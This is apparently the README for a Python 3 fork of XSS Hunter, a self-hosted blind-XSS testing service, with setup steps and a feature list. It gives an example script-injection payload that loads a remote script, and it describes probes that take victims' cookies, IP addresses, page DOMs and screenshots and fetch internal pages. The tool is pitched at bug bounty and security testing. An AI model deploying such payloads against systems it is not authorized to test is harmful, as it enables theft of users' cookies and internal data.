 # XSS Hunter Source Code
This is a portable version of the source code running on https://xsshunter.com. It is designed to be easily-installable on any server for security professionals and bug bounty hunters who wish to test for XSS in a much more powerful way. This fork of XSS Hunter has been refactored to be compatible with Python 3 and as such, some dependencies have changed. It is recommended to ensure you're using Python 3+ in your virtual environment.

**If you don't want to set up this software and would rather just start testing, see https://xsshunter.com .**

# Requirements
* A server running (preferably) Ubuntu.
* A [Mailgun](http://www.mailgun.com/) account, for sending out XSS payload fire emails.
* A domain name, preferably something short to keep payload sizes down. Here is a good website for finding two letter domain names: [https://catechgory.com/](https://catechgory.com/). My domain is [xss.ht](xss.ht) for example.
* A wildcard SSL certificate. This is required because XSS Hunter identifies users based off of their sub-domains and they all need to be SSL-enabled. Let's Encrypt now supports wildcard certificates.
    
# Setup
Original setup post: https://thehackerblog.com/xss-hunter-is-now-open-source-heres-how-to-set-it-up/

**Setting Up DNS**
The first thing you need to do is set up the DNS for your domain name so it is pointing to the server you’re hosting the software on. Only two records are needed for this:

A record:
Key: YOURDOMAIN.COM
Value: SERVER_IP
CNAME record:
Key *.YOURDOMAIN.COM
Value: YOURDOMAIN.COM
Those two records simply state where your server is located and that all subdomains should point to the same server.

**Setting Up Dependencies**
First, we need to install some dependencies for XSS Hunter to work properly. The two dependencies that XSS Hunter has are nginx for the web server and postgres for the data store. Setting these up is fairly easy, we’ll start with nginx:

sudo apt-get install nginx

After that, install postgres:

sudo apt-get install postgresql postgresql-contrib

Now we’ll set up a new postgres user for XSS Hunter to use:

sudo -i -u postgres
psql template1
CREATE USER xsshunter WITH PASSWORD 'EXAMPLE_PASSWORD';
CREATE DATABASE xsshunter;
\q
exit

Now we have all the dependencies installed, let’s now move on to setting up the software itself.

**Setting Up Source Code**
Clone the Github repo:

git clone https://github.com/mandatoryprogrammer/xsshunter

Now that we’ve cloned a copy of the code, let’s talk about XSS Hunter’s structure. The service is broken into two separate servers, the GUI and the API. This is done so that if necessary the GUI server could be completely replaced with something more powerful without any pain, the same going for the API.

Let’s start by running the config generation script:

./generate_config.py
Once you’ve run this script you will now have two new files. One is the config.yaml file which contains all the settings for the XSS Hunter service and the other is the default file for nginx to use. Move the default file into nginx’s configuration folder by running the following command:

sudo mv default /etc/nginx/sites-enabled/default
You must also ensure that you also have your SSL certificate and key files in the following locations:

/etc/nginx/ssl/yourdomain.com.crt; # Wildcard SSL certificate
/etc/nginx/ssl/yourdomain.com.key; # Wildcard SSL key
(The config generation script will specify the location you should use for these files.)

Now you need to restart nginx to apply these changes, run the following:

sudo service nginx restart

Awesome! Nginx is now all set up and ready to go. Let’s move on to the actual XSS Hunter service set up.

Now let’s start the API server! Run the following commands:

sudo apt-get install python-virtualenv python-dev libpq-dev libffi-dev
cd xsshunter/api/
virtualenv env
. env/bin/activate
pip3 install -r requirements.txt
./apiserver.py &
The & after the ./apiserver.py command will run the server in the background. It can be terminated by restarting the host or by killing the process manually.

In this new terminal let’s start the GUI server, run the following commands (in a new terminal):

cd xsshunter/gui/
virtualenv env
. env/bin/activate
pip3 install -r requirements.txt
./guiserver.py &

Congrats! You should now have a working XSS Hunter server. Visit your website to confirm everything is functioning as expected. You can now detach from tmux by typing CTRL+B followed by D.

# Summary of Functionality
*Upon signing up you will create a special short domain such as `yoursubdomain.xss.ht` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.xss.ht></script>`. XSS Hunter will automatically serve up XSS probes and collect the resulting information when they fire.*

# Features
* **Managed XSS payload fires**: Manage all of your XSS payloads in your XSS Hunter account's control panel.
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an XSS Hunter compatible tool is used) 
* **Full Page Screenshots**: XSS Hunter probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **Markup Report Generation**: Each XSS payload report comes with a pre-generated markdown report. These generated reports are also compatible with other markdown-supporting platforms such as Phabricator for easy bug reporting on company ticketing systems.
* **XSS Payload Fire Email Reports**: XSS payload fires also send out detailed email reports which can be easily forwarded to the appropriate security contacts for easy reporting of critical bugs.
* **Automatic Payload Generation**: XSS Hunter automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of XSS Hunter is the ability to correlated injection attempts with XSS payload fires. By using an [XSS Hunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the XSS Hunter service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after XSS Hunter has done it's thing? XSS Hunter offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **iOS Web Application**: It is also possible to view your XSS payload fires via an iOS web app. Simple navigate to the `/app` path and save the page as a web application to your iPhone's desktop.

# Notable Exploits
* Blind XSS in Tesla's internal servicing tool: https://samcurry.net/cracking-my-windshield-and-earning-10000-on-the-tesla-bug-bounty-program/
* Blind XSS in Spotify's Salesforce integration: https://mhmdiaa.github.io/blind-xss-in-spotify/
* Blind XSS in GoDaddy's support panel: https://thehackerblog.com/poisoning-the-well-compromising-godaddy-customer-support-with-blind-xss/

